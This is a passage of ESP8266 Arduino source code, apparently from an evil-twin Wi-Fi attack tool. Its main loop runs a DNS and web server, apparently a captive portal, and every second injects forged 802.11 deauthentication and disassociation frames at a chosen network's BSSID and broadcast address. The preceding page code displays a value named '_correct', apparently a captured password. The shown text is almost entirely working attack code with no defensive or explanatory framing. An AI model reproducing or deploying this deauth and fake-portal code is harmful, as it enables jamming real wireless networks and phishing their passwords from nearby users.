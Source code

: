   if (_correct != "") {
    _html += "</br><h3>" + _correct + "</h3>";
  }

  _html += "</table></div></body></html>";
  webServer.send(200, "text/html", _html);

}

String bytesToStr(const uint8_t* b, uint32_t size) {
  String str;
  const char ZERO = '0';
  const char DOUBLEPOINT = ':';
  for (uint32_t i = 0; i < size; i++) {
    if (b[i] < 0x10) str += ZERO;
    str += String(b[i], HEX);

    if (i < size - 1) str += DOUBLEPOINT;
  }
  return str;
}

unsigned long now = 0;
unsigned long wifinow = 0;
unsigned long deauth_now = 0;

uint8_t broadcast[6] = { 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF };
uint8_t wifi_channel = 1;

void loop() {
  dnsServer.processNextRequest();
  webServer.handleClient();

  if (deauthing_active && millis() - deauth_now >= 1000) {

    wifi_set_channel(_selectedNetwork.ch);

    uint8_t deauthPacket[26] = {0xC0, 0x00, 0x00, 0x00, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0x00, 0x00, 0x01, 0x00};

    memcpy(&deauthPacket[10], _selectedNetwork.bssid, 6);
    memcpy(&deauthPacket[16], _selectedNetwork.bssid, 6);
    deauthPacket[24] = 1;

    Serial.println(bytesToStr(deauthPacket, 26));
    deauthPacket[0] = 0xC0;
    Serial.println(wifi_send_pkt_freedom(deauthPacket, sizeof(deauthPacket), 0));
    Serial.println(bytesToStr(deauthPacket, 26));
    deauthPacket[0] = 0xA0;
    Serial.println(wifi_send_pkt_freedom(deauthPacket, sizeof(deauthPacket), 0));

    deauth_now = millis();
  }

  if (millis() - now >= 15000) {
    performScan();
    now = millis();
  }

  if (millis() - wifinow >= 2000) {
    if (WiFi.status() != WL_CONNECTED) {
      Serial.println("BAD");
    } else {
      Serial.println("GOOD");
    }
    wifinow = millis();
  }
}